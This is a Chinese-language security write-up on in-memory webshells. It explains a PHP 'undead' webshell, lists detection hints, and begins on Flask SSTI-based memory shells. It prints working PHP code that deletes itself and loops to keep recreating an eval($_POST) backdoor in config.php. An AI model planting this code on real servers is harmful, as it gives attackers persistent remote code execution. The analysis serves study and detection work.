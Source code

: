 
# [](#webshell-%E5%86%85%E5%AD%98%E9%A9%AC%E5%88%86%E6%9E%90)Webshell 内存马分析

> 内存 webshell 相比于常规 webshell 更容易躲避传统安全监测设备的检测，通常被用来做持久化，规避检测，持续驻留目标服务器。无文件攻击、内存 Webshell、进程注入等基于内存的攻击手段也受到了大多数攻击者青睐。

## [](#1-php-%E5%86%85%E5%AD%98%E9%A9%AC)1 PHP 内存马

### [](#11-%E5%8E%9F%E7%90%86)1.1 原理

php 内存马也就是 php 不死马是将不死马启动后删除本身，在内存中执行死循环，使管理员无法删除木马文件。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```php<br><?php<br>  set_time_limit(0);<br>  ignore_user_abort(1);<br>  unlink(__FILE__);<br>  while (1) {<br>  	$content = '<?php @eval($_POST["zzz"]) ?>';<br>  	file_put_contents("config.php", $content);<br>  	usleep(10000);<br>  }<br>?><br>``` |

-   `ignore_user_abort`：函数设置与客户机断开是否会终止脚本的执行，如果设置为 true，则忽略与用户的断开。
-   `set_time_limit`：设置允许脚本运行的时间，单位为秒。如果设置为 0（零），没有时间方面的限制。

### [](#12-%E6%A3%80%E6%B5%8B)1.2 检测

-   检查所有 php 进程处理请求的持续时间
-   检测执行文件是否在文件系统真实存在

## [](#2-python-%E5%86%85%E5%AD%98%E9%A9%AC)2 Python 内存马

### [](#21-%E5%8E%9F%E7%90%86)2.1 原理

Python 内存马利用 flask 框架中 SSTI 注入来实现，flask 框架中在 web 应用模板渲染的过程中用到 `render_template_string()` 进行渲染，但未对用户传输的代码进行过滤导致用户可以通过注入恶意代码来实现 python 内存马的注入。

在 icehexman [Github](https://github.com/iceyhexman/flask_memory_shell) 中对 flask 框架下的内存马进行了研究。

#### [](#211-flask-route)2.1.1 flask route

类比 tomcat 注册路由的机制，如 filter，如果想实现 python 内存马，也应该研究下 flask 是否能动态注册路由。

flask 常规注册的方式为使用装饰器 `@app.route()` 。而实际工作的函数为装饰器里调用的方法 `self.add_url_rule()` 。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202109221235167.png-water_print](assets/1699410171-60cb1b2a7997c11e1dfdac80a67e368e.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202109221235167.png-water_print")
